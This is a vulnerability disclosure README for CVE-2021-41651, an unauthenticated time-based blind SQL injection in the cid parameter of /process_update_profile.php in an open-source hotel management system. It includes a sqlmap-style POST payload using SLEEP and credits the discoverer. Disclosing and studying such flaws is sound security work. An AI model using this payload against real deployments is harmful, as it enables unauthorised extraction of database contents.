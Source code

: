 # CVE-2021-41651

CVE-2021-41651 SQL Injection in hotel-mgmt-system

The hotel-mgmt-system is vulnerable to un-authenticated time based blind SQL Injection attack.  <br/><br/>
The cid parameter on the /process_update_profile.php page does not sanitize the user input, an attacker can extract sensisitive data from the underlying MySQL Database.  <br/><br/> 

## Link To Application
[hotel-mgmt-system](https://github.com/tramyardg/hotel-mgmt-system)

## Affected Components & Parameter
URL: **/process_update_profile.php**  
PARAMETER: **cid**<br/><br/>

## Poc's

### SQLMAP PAYLOADS<br/>
### cid parameter on the /process_update_profile.php page
Parameter: cid ((custom) POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: `phone=123456778&cid=14 AND (SELECT 9048 FROM (SELECT(SLEEP(5)))zCfD)-- IKdVf&submitBtn=Update&fullName=James&email=me@you.com&newPassword=fasdfasdfasdfasdfasdf-`

### If the POC Image is unclear, please click on the GIF which will load in a better resolution.

![ POC - CID ](https://github.com/MobiusBinary/F3/blob/main/hotel.gif) 

## Discovered by
Jason Colyvas  
[MOBIUSBINARY](https://mobiusbinary.com)  
September 23rd, 2021
